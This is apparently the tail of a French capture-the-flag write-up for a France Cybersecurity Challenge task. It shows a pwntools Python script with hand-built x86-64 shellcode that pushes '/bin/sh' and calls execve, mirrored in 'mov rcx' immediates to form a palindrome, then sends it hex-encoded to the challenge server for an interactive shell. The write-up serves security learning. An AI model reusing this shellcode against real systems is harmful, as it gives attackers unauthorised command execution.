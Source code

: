 ```python

  mov bl,0x2f
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x6e
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x69
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x62
  shl rbx,8
  mov cx,0x48b9

  mov bl,0x2f
  nop
  nop
  nop
  nop
  mov cx,0x48b9

  push rax
  push rbx
  push rsp
  pop rdi
  mov al,59
  mov cx,0x48b9
  
  mov rcx,0x5053545fb03b66b9
  mov rcx,0xb32f9090909066b9
  mov rcx,0xb36248c1e30866b9
  mov rcx,0xb36948c1e30866b9
  mov rcx,0xb36e48c1e30866b9
  mov rcx,0xb32f48c1e30866b9
  mov rcx,0xb37348c1e30866b9
  mov rcx,0xb36848c1e30866b9
''')

print('shellcode length: '+str(len(shellc)))
print(hexdump(shellc))

p = remote('challenges.france-cybersecurity-challenge.fr', '2054')
# send the shellcode encoded to hexadecimal
p.sendlineafter('):\n', binascii.hexlify(shellc)  )

p.interactive()

```

voilà donc pour le palindrome..

et puis c'est tout..

